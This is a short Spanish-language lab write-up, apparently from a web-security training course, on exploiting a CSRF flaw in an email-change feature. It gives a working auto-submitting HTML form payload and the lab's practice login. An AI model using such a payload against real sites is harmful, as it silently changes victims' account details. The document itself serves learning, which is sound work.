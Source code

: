 # 01 Lab: CSRF vulnerability with no defenses

```jsx
This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter
```

Durante el proceso de cambio de correo, vemos que se ejecuta el siguiente request:

![image.png](01%20Lab%20CSRF%20vulnerability%20with%20no%20defenses%20c7188e959bc143f382b837c2841c4f4c/image.png)

El contenido del body es un formulario donde ,en caso la victima haga click, le cambiará automaticamente su correo a momemail@web-security-academy.net

```jsx
<form method="POST" action="[https://0abe003b033093b08170582d00c7009b.web-security-academy.net/my-account/change-email](https://0abe003b033093b08170582d00c7009b.web-security-academy.net/my-account/change-email)">
<input type="hidden" name="email" [value="somemail@web-security-academy.net](mailto:value=%22somemail@web-security-academy.net)">
</form>
<script>
document.forms[0].submit();
</script>
```

![image.png](01%20Lab%20CSRF%20vulnerability%20with%20no%20defenses%20c7188e959bc143f382b837c2841c4f4c/image%201.png)

![image.png](01%20Lab%20CSRF%20vulnerability%20with%20no%20defenses%20c7188e959bc143f382b837c2841c4f4c/image%202.png)